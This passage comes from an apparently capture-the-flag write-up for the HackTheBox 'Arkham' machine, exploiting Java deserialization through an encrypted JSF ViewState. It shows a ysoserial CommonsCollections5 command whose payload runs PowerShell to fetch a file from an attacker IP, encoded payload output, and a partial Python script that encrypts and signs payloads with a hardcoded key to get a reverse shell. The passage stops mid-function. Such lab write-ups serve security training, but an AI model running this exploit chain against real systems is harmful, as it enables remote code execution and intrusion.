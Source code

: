 The output from `dump_payload` was created like so:

```
$ java -jar ysoserial-all.jar CommonsCollections5 "cmd.exe /c powershell -c wget 10.10.14.9/hiiamrce" > dump_payload
```

Then, I used the script above to generate the payload required:

```
$ python3 payload.py
o4swGdxTZXw1mKtPxFkjUuWrKOBMVnhQ7RbMizpCb4xVYti30eaLecyiLLU7plNhjPFRnShy4IlIzxo0JHimBY3Uq1igjemgy0Ki4udfDHCBAJC2Yt%2BEq3hlEwGdEWrah3tqcdo5Gxzenm%2BTobetH0%2BaG8%2BiCEB1RbCm7b%2FRwuOING
<TRUNCATED>
```

Afterwards, I replaced the `ViewState` parameter within the POST request to get this:

![](../../../.gitbook/assets/htb-arkham-image-6.png)

RCE achieved! From here, I just have to use `subprocess` to retrieve the payload, and then use `requests` to get a shell.

Here's the final no-click exploit script for a reverse shell:

```python
import base64
from hashlib import sha1
import hmac
import pyDes
import binascii
from urllib import parse
import requests
import os
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

url = "http://10.129.228.116:8080/userSubscribe.faces"
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
key = b'JsF9876-'

def hmac_signature(secret, string):
    hashed = hmac.new(secret,string,sha1)
    return hashed.digest()

def encryptDES_ECB(data, key):
    k = pyDes.des(key, pyDes.ECB, IV=None, pad=None, padmode=pyDes.PAD_PKCS5)
    d = k.encrypt(data)
    assert k.decrypt(d, padmode=pyDes.PAD_PKCS5) == data
    return d

def build_payload(payload, secret_key):
    cipher = encryptDES_ECB(payload, secret_key)
    hmac_digest = hmac_signature(secret_key, cipher)
    b64_encrypted_payload = base64.b64encode(cipher + hmac_digest)
    return b64_encrypted_payload

def get_cereal(command):
    final_cmd = 'java -jar ysoserial-all.jar CommonsCollections5 "{}" > cereal'.format(command)
```